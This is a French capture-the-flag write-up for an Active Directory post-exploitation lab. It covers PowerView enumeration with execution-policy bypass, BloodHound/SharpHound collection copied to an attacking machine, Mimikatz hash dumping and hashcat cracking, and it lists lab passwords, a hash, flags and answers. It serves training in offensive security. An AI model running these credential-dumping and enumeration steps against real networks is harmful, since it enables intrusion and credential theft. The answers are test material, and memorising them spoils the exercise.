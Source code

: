 ## Post-Exploitation

Utiliser SSH pour se connecter avec la machine Windows Server 1.1 avec les crédentials :
* Utilisateur : Administrator
* Mot de passe : P@$$W0rd
* Nom de domaine : CONTROLLER

#### Powerview :

Une fois sur la machine, lancer le PowerShell avec l'option -ep bypass :
```console
PS C:\Users\Administrator> powershell -ep bypass
```

PowerView est un outil de reconnaissance que qu'il faut utiliser avec beaucoup de précautions. Il écrit en powerShell. Le script PowerView.ps1 contient un certain nombre de fonctions que l'on peut utiliser pour énumérer le domaine.
Le lancer :
```console
PS C:\Users\Administrator>. .\Downloads\PowerView.ps1
```

Code source : https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerView/powerview.ps1

Afin de visualiser toutes les fonctions fournies par le script voici une astuce :
```console
PS C:\Users\kreese\Documents> $currentFunctions = Get-ChildItem function:
PS C:\Users\kreese\Documents> . .\PowerView.ps1
PS C:\Users\kreese\Documents> $scriptFunctions = Get-ChildItem function: | Where-Object { $currentFunctions -notcontains $_ }
PS C:\Users\kreese\Documents> $scriptFunctions | Format-Wide -Column 4
```

Informations générales au sujet du domaine :
```console
Get-NetDomainController
```

Enumérer les Common Name des utilisateurs du domaine :
```console
Get-NetUser | select cn
```

Enumérer les groupes de type admin :
```console
Get-NetGroup -GroupName *admin*
```

Quel est le dossier partagé qui n'est pas configuré en tant que tel par défaut ? Utiliser la commande Invoke-ShareFinder.
```console
Share
```

Quel système d'exploitation s'exécute à l'intérieur du réseau en plus de Windows Server 2019 ?
```console
Get-NetComputer -fulldata | select operatingsystem
```

```console
Windows 10 Enterprise Evaluation
```

Un flag est caché parmi les utilisateurs. Trouvez le.
```console
POST{P0W3RV13W_FTW}
```

---

#### Bloodhound :

<p align="center">
  <img src="https://i.imgur.com/BAT2ZAH.png" />
</p>

BloodHound est un outil permettant de cartographier un environnement Active Directory en le représentant sous forme de graphe.

##### Sur la machine Kali Linux :

Installer Neo4j :
```console
$ sudo apt-get update
$ sudo apt-get install neo4j
```
Vérifier la version :
```console
$ neo4j --version
```

Neo4j est un système de gestion de base de données au code source libre basée sur les graphes. Il est utilisé par Bloodhound.<br/>
Lancer Neo4j et vérifier que le service est accessible via le browser :
```console
$ neo4j console
```

<p align="center">
  <img src="https://pencer.io/assets/images/2020-06-09-14-53-59.png" />
</p>

Installer Bloodhound :
```console
$ sudo apt-get install bloodhound
```

##### Une fois sur la machine Windows :

Lancer le PowerView avec l'option -ep bypass :
```console
powershell -ep bypass
```

SharpHound est le collecteur de données officiel de BloodHound. Il est écrit en C# et utilise des fonctions API Windows natives et des fonctions d'espace de noms LDAP pour collecter des données à partir de contrôleurs de domaine.<br/>
Le lancer :
```console
. .\Downloads\SharpHound.ps1
```

```console
Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName all-data.zip
```
<p>
  <img src="img/Screenshot_2021-09-20-TryHackMe-Post-Exploitation-Basics.png" />
</p>

Transférer l'archive générée vers votre machine linux d'attaque. Utiliser scp.

Exemple : scp username@IP_of_windows_machine:/C:/Users/Anshul/Desktop/myfile.zip /home/ubuntu/myfile.zip

Une fois sur la machine Kali Linux charger le fichier zip avec Bloodhound pour avoir la cartographie du domaine de la machine cible.<br/>
Utiliser les crédentials neo4j/neo4j pour se connecter.

<p align="center">
  <img src="https://i.imgur.com/thfZUOy.png" />
</p>

Quel service est-il également un domain admin ?
```console
sqlservice
```

Quels sont les deux utilsateurs Kerberos ?
```console
sqlservice, krbtgt
```

---

#### Mimikatz :

Mimikatz est un outil de post-exploitation qui permet de faire des dumps des mots de passe de la mémoire, mais aussi des hash, des codes PIN et des tickets pour le protocole d'identification réseau Kerberos.

Lancer Mimikatz :

```console
PS C:\Users\Administrator> cd .\Downloads\
PS C:\Users\Administrator\Downloads> .\mimikatz.exe
```

Vérifier que la sortie est "Privilege '20' ok" : Cela garantit que vous exécutez mimikatz en tant qu'administrateur.
```console
mimikatz # privilege::debug
```

Dumper les hashes :
```console
mimikatz # lsadump::lsa /patch
```

<p align="center">
  <img src="img/Screenshot_2021-09-20-TryHackMe-Post-Exploitation-Basics_01.png"/>
</p>

Maintenant que nous avons les hachages, nous pouvons essayer de les casser. Commençons par le faire en utilisant hashcat et rockyou.txt :

```console
$ locate rockyou.txt
```

Récuperer les hachages dans un fichier hashes.txt et faites tourner hashcat pour trouver les équivalents :
```console
$ cat hashes.txt
$ hashcat -m 1000 --force hashes.txt /usr/share/wordlists/rockyou.txt
```

En cas d'erreur :

Il faut installer les librairies nécessaires au fonctionnement de hashcat supérieur à la version 3.3.x :
```console
$ apt-get install libhwloc-dev ocl-icd-dev ocl-icd-opencl-dev
$ apt-get install pocl-opencl-icd
```

Quel est le mot de passe de la Machine1 ?
```console
Réponse : Password1
```

Quel est le hash du mot de passe de la Machine2 ?
```console
Réponse : c39f2beb3d2ec06a62cb887fb391dee0
```

---

#### Server Manager :

Se connecter à la machine Windows en Remote Desktop Protocol avec les crédentials :
* Utilisateur : Administrator
* Mot de passe : P@$$W0rd
* Nom de domaine : controller.local

```console
$ rdesktop -u SG ADRESSE_IP
```

<p align="center">
  <img src="https://cdn.dlcompare.com/game_tetiere/upload/gameimage/file/43698.png" />
</p>

Quel outil permet des tracer les evénements ?
```console
event viewer
```

Quel est le mot de passe du service SQL ? Regarder la description.
```console
MYpassword123#
```
